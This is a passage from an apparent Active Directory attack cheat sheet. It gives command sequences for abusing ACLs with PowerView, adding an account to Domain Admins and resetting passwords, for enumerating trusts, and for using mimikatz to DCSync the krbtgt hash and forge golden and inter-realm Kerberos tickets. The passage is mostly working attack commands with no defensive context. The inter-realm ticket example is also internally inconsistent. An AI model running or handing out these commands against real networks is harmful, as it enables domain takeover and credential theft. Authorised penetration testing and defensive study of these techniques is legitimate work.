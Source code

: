 ### Exploiting ACLs

**Manual:**
```bash
# Example: Adding user to a group using PowerView
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'targetuser'

# Example: Resetting a user's password
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
```

**Automated:**
```bash
# This would typically require custom scripting for your specific scenario
# No direct automation provided in the toolset for ACL exploitation
```

---

## Trust Relationships

### Enumerating Trusts

**Manual:**
```bash
# Using PowerView
Import-Module .\PowerView.ps1
Get-DomainTrust
Get-ForestTrust

# Using NetExec/Impacket
netexec ldap 192.168.1.100 -u administrator -p 'Password123!' --trusted-for-delegation
```

**Automated:**
```bash
# Using SharpView automation
./sharpview-automator.py trusts

# Using PowerShell enumeration
./powershell-enumeration.py local
```

### Exploiting Trusts

**Manual:**
```bash
# Extracting TGTs from a trusted domain
mimikatz.exe
lsadump::dcsync /domain:trustedomain.local /user:krbtgt
kerberos::golden /domain:trustedomain.local /sid:S-1-5-21-... /rc4:krbtgthash /user:Administrator /service:krbtgt /target:contoso.local /ticket:trust.kirbi
exit

# Create inter-realm TGT
kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /rc4:krbtgthash /user:Administrator /service:krbtgt /target:contoso.local /ticket:target.kirbi
exit
```
